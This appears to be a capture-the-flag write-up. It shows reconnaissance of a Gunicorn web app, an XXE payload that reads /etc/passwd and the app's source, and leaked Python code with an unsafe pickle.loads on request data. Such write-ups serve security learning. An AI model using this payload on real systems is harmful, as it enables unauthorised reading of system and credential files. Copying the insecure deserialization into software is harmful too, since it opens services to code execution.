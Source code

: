 ![](./logo.png)

# USER

Performing the nmap scan gives us http page hosted using `Gunicorn`. There is mention of a `dev.solita.fi` backend on the page.

Using gobuster I have found an `upload` endpoint. It provides an xml structure


Uploading the XML below:
```xml
<note>
    <Author>Author</Author>
    <Subject>Subject</Subject>
    <Content>Content</Content>
</note>
```

Provides us with the message:
```
PROCESSED BLOGPOST: Author: Author Subject: Subject Content: Content URL for later reference: /uploads/payload.xml File path: /home/roosa/deploy/src
```

This seems like files go to the `uploads` endpoint. Lets check out if a non xml file goes there.

The parsing of the xml is vulnerable to XML External Entity (XXE Injection) attacks.

With this payload
```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
<root> 
    <Author>&test;</Author>
    <Subject>Subject</Subject>
    <Content>Content</Content>
</root>
```

We can leak the `/etc/passwd`!

Previously the `feed.py` was mentioned. And we have a leaked file path (/home/roosa/deploy/src). We can use the payload above to leak the `feed.py`


It all comes out unformatted onto the webpage but with a little fixing we get this:
```python
def uploaded_file(filename): 
    return send_from_directory(Config.UPLOAD_FOLDER, filename) 
    
@app.route("/") 
def xss(): 
    return template('index.html') 
    
@app.route("/feed") 
def fakefeed(): 
    return send_from_directory(".","devsolita-snapshot.png") 
    
@app.route("/newpost", methods=["POST"]) 
def newpost(): # TODO: proper save to database, this is for testing purposes right now 
    picklestr = base64.urlsafe_b64decode(request.data) 
    #return picklestr 
    postObj = pickle.loads(picklestr) 
    return "POST RECEIVED: " + postObj['Subject'] ## TODO: VERY important! DISABLED THIS IN PRODUCTION 
    
    # app = DebuggedApplication(app, evalex=True, console_path='/debugconsole') # TODO: Replace run-gunicorn.sh with real Linux service script 
    # app = DebuggedApplication(app, evalex=True, console_path='/debugconsole')

if __name__ == "__main__":
    app.run(host='0.0.0,0', Debug=True)
```